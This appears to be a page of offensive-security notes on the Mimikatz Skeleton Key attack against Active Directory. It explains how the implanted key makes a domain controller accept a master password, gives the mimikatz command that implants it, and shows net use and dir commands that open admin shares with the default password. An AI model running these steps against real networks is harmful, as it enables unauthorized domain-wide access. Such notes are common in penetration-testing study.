 ### Skeleton Key Overview

The timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing us access to the domain forest.

Installing the Skeleton Key w/ mimikatz - From mimikatz:

`misc::skeleton`

![](<../../.gitbook/assets/image (195).png>)

### Accessing the forest

The default credentials will be `mimikatz`

Eg. `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

Eg. `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, but it can be scripted or persisted using other tools and techniques.
